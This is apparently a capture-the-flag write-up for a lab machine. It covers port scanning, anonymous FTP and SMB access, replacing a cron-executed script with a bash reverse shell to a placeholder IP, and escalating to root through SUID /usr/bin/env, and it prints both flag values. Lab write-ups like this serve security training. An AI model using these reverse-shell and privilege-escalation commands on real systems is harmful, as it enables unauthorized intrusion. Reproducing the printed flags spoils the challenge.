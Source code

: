 ```yaml
---
sticker: emoji//1f4bb
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 21   | ftp     |
| 22   | ssh     |
| 139  | smb     |
| 445  | smb     |

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.6.34.159
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2025-04-01T18:15:57+00:00
|_clock-skew: mean: 0s, deviation: 1s, median: 0s
| smb2-time:
|   date: 2025-04-01T18:15:57
|_  start_date: N/A
```

# RECONNAISSANCE
---


We got FTP and SMB enabled on the machine, also, we got anonymous login enabled in FTP at first sight thanks to the scan, this may be enabled on smb too, let's check out FTP first:


![](Pasted%20image%2020250401131807.png)

We got a `scripts` directory, let's check it contents:

![](Pasted%20image%2020250401132437.png)

We got some scripts in it, let's look at them:


![](Pasted%20image%2020250401132655.png)



![](Pasted%20image%2020250401132708.png)



![](Pasted%20image%2020250401132719.png)


That `clean.sh` script seems interesting, let's keep it like that for now. We can proceed to analyze `SMB`, since the anonymous login may be enabled, we can view the contents of the shares:

```
smbclient -L \\\\10.10.235.71\\ -N
Can't load /etc/samba/smb.conf - run testparm to debug it

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	pics            Disk      My SMB Share Directory for Pics
	IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

Let's check that `pics` share:

![](Pasted%20image%2020250401133112.png)

Both files are not interesting, if we try extracting the contents with `steghide`, we'll need a passphrase so, they're not useful, let's proceed with exploitation then.




# EXPLOITATION
---


We already know that the FTP protocol has got a script called `clean.sh`, interesting part about the script is that:

- The script checks `if [ $tmp_files=0 ]` (missing space around =). While syntactically incorrect, this is treated as a string comparison. However, the script is likely **triggered by a cron job** (since `removed_files.log` has many entries).

If we can modify the contents of `clean.sh`, we can upload a reverse shell and gain access to the machine, let's test this by doing the following:


1. Create a new `malicious_clean.sh` script with the following contents to trigger a reverse shell:

```
#!/bin/bash
bash -i >& /dev/tcp/IP/PORT 0>&1
```

2. Replace the script with our malicious one:

```
ftp IP # Login with anonymous login
cd scripts
put malicious_clean.sh clean.sh
```

3. Set up the listener and wait for the connection:

```
nc -lvnp PORT
```


If we reproduce these steps, we can see the following in our listener:

![](Pasted%20image%2020250401133901.png)

We got a shell as `namelessone`, let's begin privilege escalation.



# PRIVILEGE ESCALATION
---


First step would be stabilizing our shell to move around the machine in a more comfortable way:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](Pasted%20image%2020250401134051.png)

We can read `user.txt` now:

```
namelessone@anonymous:~$ cat user.txt
90d6f992585815ff991e68748c414740
```

Now, in order to get root, we can use linpeas to check for any privesc vector:

![](Pasted%20image%2020250401134406.png)

For example, we are inside of the `sudo` group but since we do not know the password of `namelessone`, this is pretty much useless for now, if we keep looking at `linpeas` output, we can check this:

![](Pasted%20image%2020250401134512.png)

We got `SUID` for `/usr/bin/env`, let's check `gtfobins`:

![](Pasted%20image%2020250401134540.png)

So, we can do the following in order to get a root shell:

```
/usr/bin/env /bin/bash -p
```

![](Pasted%20image%2020250401134615.png)

There we go, we can finally read `root.txt` and end the challenge:

```
bash-4.4# cat /root/root.txt
4d930091c31a622a7ed10f27999af363
```

![](Pasted%20image%2020250401134709.png)



